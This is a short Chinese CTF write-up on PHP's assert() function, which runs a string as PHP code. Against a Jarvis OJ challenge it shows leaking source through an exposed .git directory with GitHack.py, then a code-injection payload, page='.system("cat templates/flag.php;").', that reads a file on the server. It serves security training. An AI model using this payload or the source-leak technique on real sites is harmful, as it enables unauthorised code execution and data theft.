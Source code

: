 assert()：

把字符串执行php代码。



列题讲解：

浙大ctf http://web.jarvisoj.com:32798/

使用sourceLeakHacker扫描发现存在git目录。

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/代码审计/危险函数/images/26F46C4B78464D97A4E3ED6BE4E0C9A2clipboard.png)

使用gitHacker下载文件：

```javascript
    GitHack.py http://web.jarvisoj.com:32798/.git/
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/代码审计/危险函数/images/1E2211D175B447D7AEB48884E5070957clipboard.png)



下载网页源码，进入flag.php发现，没有flag。此时代码审计

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/代码审计/危险函数/images/A250AE466F09420DB9C2326A68BEFDF7clipboard.png)

发现存在assert()函数，推测是任意代码执行。

payload:

page='.system("cat templates/flag.php;").'